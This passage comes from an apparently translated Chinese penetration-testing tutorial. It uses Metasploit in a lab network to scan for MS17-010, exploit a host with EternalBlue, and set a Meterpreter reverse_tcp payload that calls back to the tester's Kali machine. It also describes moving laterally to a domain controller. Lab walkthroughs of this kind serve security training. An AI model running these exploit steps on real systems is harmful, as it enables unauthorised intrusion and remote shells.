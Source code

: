 我们需要设置一些选项来运行此操作：

```
set RHOST 172.16.42.0/24 # This sets the target network
set SMBDomain LAB1 # We gained this information earlier.
set THREADS 5 # This will speed up the scan checking 5 hosts at a time.
```

然后设置以下各项：

```
exploit # To run the scan.  
```

当我们查看结果时，似乎有很多易受攻击的主机可供选择，如以下屏幕截图所示：

![](Images/fee135af-1e7d-4069-bc71-2aeaa6fc2fe9.png)

很多低垂的水果。我们来挑一些吧。通过搜索`ms10_010`，我们将发现与此漏洞相关的漏洞：

```
search ms17_010  
```

您将看到以下漏洞：

![](Images/510f8e16-7530-4785-bc90-26b36b9262d7.png)

我们在同一个框架中有三个漏洞。`ms17_010_eternalblue`漏洞最适合 64 位系统。实际上，如果键入 show payloads，您将看到只显示 x64 有效负载。我使用了 x32 位的有效负载，并使其在 32 位系统上运行，但这可能会挂起 32 位系统，并导致其蓝屏或重新启动。

`ms17_010_psexec`漏洞最适合 32 位系统。`ms17_010_eternalblue_win8`漏洞在 Win8 和 Win10 系统上最有效。此漏洞还将绕过这些系统上的 ASLR 保护。

我发现这些漏洞攻击在域控制器上不起作用。这很可能是因为域控制器需要 Active Directory 登录凭据，而不允许连接到 SMB 服务。最好选择另一台服务器，然后横向移动到域控制器。这将是我们的攻击策略。

通过前面的扫描，我们发现有一个易受攻击的 64 位系统 BO-SRV3。我们将使用`ms17_010_eternalblue`漏洞来破坏这个系统。使用以下代码加载模块：

```
use exploit/windows/smb/ms17_010_eternalblue
show options # to show the options  
```

对于选项，您需要加载以下内容：

```
set RHOST 172.16.42.7
set SMBDomain LAB1
```

要查看可用的有效载荷，请键入以下命令：

```
show payloads  
```

我们将使用以下方法：

```
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 172.16.42.140 # This will be kali's IP address
show options # To check your set up  
```
